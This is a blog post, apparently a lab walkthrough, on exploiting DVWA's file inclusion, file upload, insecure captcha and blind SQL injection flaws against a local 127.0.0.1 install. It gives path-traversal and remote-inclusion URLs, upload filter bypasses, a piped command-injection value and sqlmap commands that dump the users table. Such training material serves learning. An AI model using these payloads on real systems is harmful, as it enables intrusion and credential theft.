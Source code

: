 ```yaml
---
layout: post
title: DVWA - Part 2
categories: [Vulnerable Web Applications]
tags: [DVWA, OWASP ZAP, file inclusion, file upload, captcha, SQL injection]

---
```


This is the second part exploring DVWA. For the first part, click [here](https://marselia.github.io/vulnerable%20web%20applications/2020/05/09/DVWA.html).

In this post, we will see vulnerabilities for:

- File inclusion
- File upload
- Captcha
- SQL

## File inclusion

This happens in dynamic pages with PHP as a result of a fault in the programming of the page. This is why the attacker could modify some files and parameters.

LOW - MEDIUM - HIGH:

LOW:
- https://127.0.0.1/DVWA/vulnerabilities/fi/?page=file4.php
- https://127.0.0.1/DVWA/vulnerabilities/fi/?page=../../robots.txt
- https://127.0.0.1/DVWA/vulnerabilities/fi/?page=../../phpinfo.php
- https://127.0.0.1/DVWA/vulnerabilities/fi/?page=../../bootmgr
- https://127.0.0.1/DVWA/vulnerabilities/fi/?page=../../../../../../etc/passwd
- http://127.0.0.1/DVWA/vulnerabilities/fi/?page=http://127.0.0.1/evilphp.php

MEDIUM:
We can't use ../, so change it to ..././ :
- https://127.0.0.1/DVWA/vulnerabilities/fi/?page=..././..././robots.txt

HIGH:
Try to use this:
- https://127.0.0.1/DVWA/vulnerabilities/fi/?page=file:///var/www/html/DVWA/robots.txt


## File upload

You can encapsulate malicious code in inert file types.

LOW - MEDIUM - HIGH:

LOW: Upload a malicious file.
MEDIUM: Send a POST Request with the malicious file and change the Content-Type to image/jpeg.
HIGH: Change the malicious file extension to jpeg and change the file signature to jpeg signature with hexedit. Then, in the command injection section, write this: 127.0.0.1|mv ../../hackable/uploads/test.png ../../hackable/uploads/test.php

## Insecure Captcha

Captchas are generally used to prevent robots from performing an action instead of humans.

LOW - MEDIUM - HIGH:

LOW: Change the step=1 to step=2.
http://127.0.0.1/DVWA/vulnerabilities/captcha/?step=2&password_new=q&password_conf=q&Change=Change
MEDIUM: We need to change the passed_captcha to True.
http://127.0.0.1/DVWA/vulnerabilities/captcha/?step=2&password_new=q&password_conf=q&passed_captcha=true&Change=Change
HIGH: Change the User-Agent to reCAPTCHA.
http://127.0.0.1/DVWA/vulnerabilities/captcha/?step=1&password_new=123&password_conf=123&recaptcha_response_field=hidd3n_valu3&Change=Change


## SQL injection blind

It is a type of SQL Injection attack that asks the database true or false questions and determines the answer based on the applications response. 

LOW - MEDIUM - HIGH:

LOW:
Using wordlists or by hand only we can get the same message: "we find this user id in ddbb". For this reason, we will use sqlmap tool.

```
sqlmap -u "http://127.0.0.1/DVWA/vulnerabilities/sqli_blind/?id=1+or+sleep%28__TIME__%29%23&Submit=Submit" --cookie="security=low; PHPSESSID=b8jch8ondgrdoikuq5ap78ci7n" –dbs
sqlmap -u "http://127.0.0.1/DVWA/vulnerabilities/sqli_blind/?id=1+or+sleep%28__TIME__%29%23&Submit=Submit" --cookie="security=low; PHPSESSID=b8jch8ondgrdoikuq5ap78ci7n" -D dvwa –tables

sqlmap -u "http://127.0.0.1/DVWA/vulnerabilities/sqli_blind/?id=1+or+sleep%28__TIME__%29%23&Submit=Submit" --cookie="security=low; PHPSESSID=b8jch8ondgrdoikuq5ap78ci7n" -D dvwa -T users –dump
```
![]({{ site.baseurl }}/images/DVWA-6.jpg)

MEDIUM:
```
sqlmap -u "http://127.0.0.1/DVWA/vulnerabilities/sqli_blind/" --cookie="security=medium; PHPSESSID=b8jch8ondgrdoikuq5ap78ci7n" --data="id=3&Submit=Submit" --dbs 
//OPTION 2:
sqlmap -u "http://127.0.0.1/DVWA/vulnerabilities/sqli_blind/?id=3&Submit=Submit" --cookie="security=medium; PHPSESSID=b8jch8ondgrdoikuq5ap78ci7n" –dbs
//and you have to follow the same steps as low level
```

HIGH:
Referer: https://127.0.0.1/DVWA/vulnerabilities/sqli_blind/cookie-input.php
Cookie: id=1%27; security=high; PHPSESSID=b8jch8ondgrdoikuq5ap78ci7n
Data: id=1%27&Submit=Submit
```
sqlmap -u “http://127.0.0.1/DVWA/vulnerabilities/sqli_blind/?id=1%27&Submit=Submit” --cookie=”security=high; PHPSESSID=b8jch8ondgrdoikuq5ap78ci7n” --dbs
//and you have to follow the same steps as low level
```